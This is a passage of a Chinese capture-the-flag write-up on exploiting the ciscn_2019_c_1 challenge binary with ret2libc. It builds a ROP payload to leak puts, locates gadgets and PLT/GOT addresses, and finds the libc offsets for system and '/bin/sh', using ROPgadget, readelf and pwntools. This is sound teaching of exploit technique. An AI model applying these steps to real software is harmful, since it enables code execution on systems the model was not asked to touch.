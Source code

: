 ## 2 利用方式
进一步查看程序，发现没有可用的后门函数，选择ret2libc来利用。首先泄漏`puts`函数的地址，用于计算`libc`的基址

构造payload为`b'\0' + b'a' * (offset - 1) + p64(pop_rdi) + p64(puts_got_addr) + p64(puts_plt_addr) + p64(start)`

其中，`offset`通过查看程序汇编代码获得，`pop_rdi`通过ROPgadget获得
```
wlupus@VM-4-10-ubuntu:~/pwn$ ROPgadget --binary ciscn_2019_c_1 | grep "pop rdi"
0x0000000000400c83 : pop rdi ; ret
```
`puts_plt_addr`通过readelf和objdump获得
{{<image src="section.png" caption="readelf -WS binary_name">}}
{{<image src="plt.png" caption="objdump -dj.plt binary_name">}}
`puts_got_addr`通过计算得到，64位下计算方法为
$$PutsGotAddr = (PutsPltIdx - 1) * 8 + 24 + GOTBaseAddr$$
对应上图中，puts是plt表中的第二个函数，所以got_addr为$(2 - 1) * 8 + 24 + 0x602000 = 0x602020$

`start`为main函数的起始位置，可以通过readelf读取符号表获得
```
wlupus@VM-4-10-ubuntu:~/pwn$ readelf -Ws ciscn_2019_c_1 | grep main
     5: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@GLIBC_2.2.5 (2)
    60: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@@GLIBC_2.2.5
    75: 0000000000400b28   245 FUNC    GLOBAL DEFAULT   14 main
```

当然，以上数据还可以通过pwntools库提供的方法来直接获取
```py
start = elf.sym['main']
# 0x400b28
puts_plt_addr = elf.plt['puts']
# 0x4006e0
puts_got_addr = elf.got['puts']
# 0x602000 + 0x20 = 0x602020
```

之后根据泄漏出来的puts函数真实地址的后三位，确定libc版本，获取其中的system函数地址以及`/bin/sh`字符串地址。由于我本地环境的libc在libc_database中没有，所以后文采用了手动查看的方法

```
# 通过ldd查看libc路径
wlupus@VM-4-10-ubuntu:~/pwn$ ldd ciscn_2019_c_1
	linux-vdso.so.1 (0x00007fff7c588000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f09898fa000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f0989ceb000)
```
```
# 获取libc符号表，查看puts的偏移
wlupus@VM-4-10-ubuntu:~/pwn$ readelf -Ws /lib/x86_64-linux-gnu/libc.so.6 | grep puts
   192: 0000000000080970   512 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.2.5
   423: 0000000000080970   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
   497: 0000000000126520  1240 FUNC    GLOBAL DEFAULT   13 putspent@@GLIBC_2.2.5
   680: 0000000000128430   750 FUNC    GLOBAL DEFAULT   13 putsgent@@GLIBC_2.10
  1143: 000000000007f1a0   396 FUNC    WEAK   DEFAULT   13 fputs@@GLIBC_2.2.5
  1680: 000000000007f1a0   396 FUNC    GLOBAL DEFAULT   13 _IO_fputs@@GLIBC_2.2.5
  2313: 000000000008a5e0   143 FUNC    WEAK   DEFAULT   13 fputs_unlocked@@GLIBC_2.2.5
```
```
# 查看system函数在libc中的偏移
wlupus@VM-4-10-ubuntu:~/pwn$ readelf -Ws /lib/x86_64-linux-gnu/libc.so.6 | grep system
   233: 0000000000159c50    99 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.2.5
   609: 000000000004f420    45 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1406: 000000000004f420    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```
```
# 查看/bin/sh字符串在libc中的偏移
wlupus@VM-4-10-ubuntu:~/pwn$ strings -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
 1b3d88 /bin/sh
```